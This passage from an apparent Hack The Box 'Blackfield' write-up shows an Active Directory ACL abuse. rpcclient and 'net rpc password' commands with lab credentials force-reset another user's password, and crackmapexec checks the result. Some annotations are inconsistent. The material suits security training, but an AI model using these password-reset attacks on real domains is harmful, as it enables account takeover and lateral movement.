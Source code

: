 
Since I have the **support@blackfield.htb** account compromised, I'm going to search for it with **BloodHound** and then mark it as a user I own. Now if I double click on this object, the tool brings me all the information related to it, now I just have to pay attention to the one that leads me to an attack path. I see in the **[OUTBOUND OBJECT CONTROL](https://bloodhound.readthedocs.io/en/latest/data-analysis/nodes.html){:target="_blank"}** section that as the `support` user I have the ability to [change the password of the account](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword){:target="_blank"} **audit2020@blackfield.htb**, without needing to know the current password. In the resource **[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse){:target="_blank"}** from **HackTricks** I find all the information I need to change the credential, I can use rpcclient or net. After making the changes, I check with crackmapexec if it was successful, it is effective but it also informs me that I cannot access using WinRM protocol.

> **First Degree Object Control**: The number of objects in **AD** where this user is listed as the IdentityReference on an abusable **ACE**. In other words, the number of objects in **Active Directory** that this user can take control of, without relying on security group delegation.

> Holding the **ExtendedRight** on a user for **User-Force-Change-Password** allows password resets without knowing the current password. Verification of this right and its exploitation can be done through **PowerShell** or alternative command-line tools, offering several methods to reset a user's password, including interactive sessions and one-liners for non-interactive environments. The commands range from simple **PowerShell** invocations to using `rpcclient` on Linux, demonstrating the versatility of attack vectors.

```bash
rpcclient -U "support%#00^BlackKnight" 10.10.10.192
    > setuserinfo2 audit2020 23 'oldboy123'                           # :(
    > setuserinfo2 audit2020 23 'oldboy123!$'                         # :)
crackmapexec smb 10.10.10.192 -u 'audit2020' -p 'oldboy123!$'         # :)

man net
#    --> net - Tool for administration of Samba and remote CIFS servers.
net --help
net help rpc
#    --> net rpc password --> Change a user password

net rpc password audit2020 -U blackfield.local/support%#00^BlackKnight -S 10.10.10.192
crackmapexec smb 10.10.10.192 -u 'audit2020' -p 'oldb123!$'           # :(
crackmapexec winrm 10.10.10.192 -u 'audit2020' -p 'oldb123!$'         # :)
```

<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />